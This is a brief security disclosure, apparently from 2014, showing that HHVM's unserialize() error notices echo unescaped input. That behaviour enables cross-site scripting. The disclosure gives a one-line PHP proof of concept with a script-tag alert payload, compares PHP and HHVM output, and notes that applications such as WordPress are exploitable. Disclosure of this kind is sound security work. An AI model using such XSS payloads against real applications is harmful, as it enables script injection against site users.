 ### XSS via Error Reporting Notices in HHVM's unserialize() Function
> Taoguang Chen <[@chtg](http://github.com/chtg)> - 2014.10.31
``` php
<?php
unserialize('<script>alert(/xss/)</script>');
```
The outputs in PHP:
``` php
Notice: unserialize(): Error at offset 0 of 29 bytes in ...
```
The outputs in HHVM:
``` php
Notice: Unable to unserialize: [<script>alert(/xss/)</script>]. Expected ':' but got 's'. in ...
```
This issue can be exploited on a number of popular applications, such as: WordPress :)
